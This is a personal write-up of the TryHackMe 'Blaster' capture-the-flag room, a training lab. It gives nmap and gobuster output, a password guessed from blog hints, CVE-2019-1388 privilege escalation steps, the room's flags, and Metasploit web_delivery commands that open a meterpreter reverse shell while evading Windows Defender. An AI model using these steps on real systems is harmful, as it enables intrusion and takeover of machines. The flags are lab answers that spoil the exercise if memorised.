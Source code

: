 ```yaml
---
date: 2024-10-08
title: Blaster HTB Write-Up
machine_ip: 10.10.244.151
os: Windows
difficulty: Easy
my_rating: 4
tags:
  - Windows
  - PrivEsc
  - CVE-2019-1388
  - nmap
  - gobuster
  - IIS
  - RDP
  - metasploit
  - msfconsole
  - Evasion
references: "[[📚CTF Box Writeups]]"
---
```

 - [Zero Day Initiative CVE-2019-1388](https://www.youtube.com/watch?v=3BQKpPNlTSo)
 - [Rapid7 CVE-2019-1388](https://www.rapid7.com/db/vulnerabilities/msft-cve-2019-1388)

This is a THM box/room called [Blaster](https://tryhackme.com/r/room/blaster)

---
# Enumeration

- Nmap
```
┌──(root㉿kali)-[~/Downloads]
└─# nmap -sVC -Pn -p- 10.10.244.151
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 13:54 PDT
Nmap scan report for 10.10.244.151
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-10-08T21:01:37+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2024-10-08T21:01:32+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2024-10-07T20:53:44
|_Not valid after:  2025-04-08T20:53:44
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 411.98 seconds
                                                                
```

- Gobuster
```
┌──(root㉿kali)-[~/Downloads]
└─# gobuster dir -u  http://10.10.244.151 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.244.151
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/retro                (Status: 301) [Size: 150] [--> http://10.10.244.151/retro/]

```

## Initial Foothold

- At the webpage `http://10.10.244.151/retro` we find posts written by `Wade` (potential username?)
	- On the webpage, we find a Ready Player One post and find a few hints
		- "I keep mistyping the name of his avatar whenever I log in but I think I’ll eventually get it down. Either way, I’m really excited to see this movie! "
		- "Leaving myself a note here just in case I forget how to spell it: parzival"
		- We can infer his login may be `Wade:parzival`

- SUCCESS - we can login as `Wade` with the password `parzival` using RDP

## PrivEsc

- Using CVE-2019-1388, we can elevate privileges using a vulnerability existing in the Windows Certificate Dialog as it does not properly enforce user privileges, aka 'Windows Certificate Dialog Elevation of Privilege Vulnerability'. 
- [Steps](https://github.com/nobodyatall648/CVE-2019-1388):
	1) find a program that can trigger the UAC prompt screen
		1) `hhpud.exe`
	2) select "Show more details"
	3) select "Show information about the publisher's certificate"
	4) click on the "Issued by" URL link it will prompt a browser interface.
	5) wait for the site to be fully loaded & select "save as" to prompt a explorer window for "save as".
	6) on the File Explorer window address path, enter the `cmd.exe` full path:
	`C:\WINDOWS\system32\cmd.exe` then `Enter`
	7) now you'll have an escalated privileges command prompt. 

- User flag - Wade
```
THM{HACK_PLAYER_ONE}
```

- Root flag
```
THM{COIN_OPERATED_EXPLOITATION}
```

## Gain RevShell using Metasploit and bypass AV:

- Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery!
- For this, we'll be using the script web delivery exploit within Metasploit.
	- `use exploit/multi/script/web_delivery`
	- `set target 2`
	- `set lhost tun0`
	- `set lport 443`
	-  `set payload windows/meterpreter/reverse_http`
	- `run -j
- Now, return to the terminal we spawned with our exploit.
	- In this terminal, paste the command output by Metasploit after the job was launched.
	- In this case, I've found it particularly helpful to host a simple python web server (`python3 -m http.server`) and host the command in a text file as copy and paste between the machines won't always work.
	- Once you've run this command, return to our attacker machine and note that our reverse shell has spawned. 
